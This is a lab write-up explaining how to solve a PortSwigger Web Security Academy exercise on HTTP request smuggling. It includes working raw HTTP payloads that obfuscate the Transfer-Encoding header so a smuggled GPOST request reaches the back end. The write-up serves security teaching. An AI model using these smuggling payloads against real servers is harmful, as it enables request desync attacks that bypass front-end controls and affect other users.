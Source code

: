 # HTTP request smuggling, obfuscating the TE header

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header), you'll learn: HTTP request smuggling, obfuscating the TE header! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174129.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174306.png)

**We can send this request to Burp Suite's Repeater and try to smuggle a GPOST method request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174412.png)

To do so, change the request method to POST:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174501.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174506.png)

**Then, we can add a header called `Transfer-Encoding`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174703.png)

**After that, we can try to smuggle a TE.CL (Front-end uses `Transfer-Encoding`, back-end uses `Content-Length`) request:**
```http
POST / HTTP/1.1
Host: 0a2d00ff037899c8c17fc88600cc00e5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

65
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
smuggled=yes
0


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128175121.png)

Hmm... HTTP status 500 Internal Server Error.

Maybe both front-end and back-end uses `Transfer-Encoding` header (TE.TE)?

**To test this, we can obfuscate the `Transfer-Encoding` header:**
```http
Transfer-Encoding: chunked
Transfer-encoding: x
```

When we send this request, we can assume the back-end uses `Content-Length` header.

**Now, we can handle this as a TE.CL HTTP request smuggling:**
```http
POST / HTTP/1.1
Host: 0a2d00ff037899c8c17fc88600cc00e5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: x

65
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

> Note: To send this request, you'll need to uncheck the "Update Content-Length" option in Burp Repeater, add trailing sequence `\r\n\r\n` following the final `0`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128181053.png)

As you can see, we successfully smuggled the GPOST method request!

# What we've learned:

1. HTTP request smuggling, obfuscating the TE header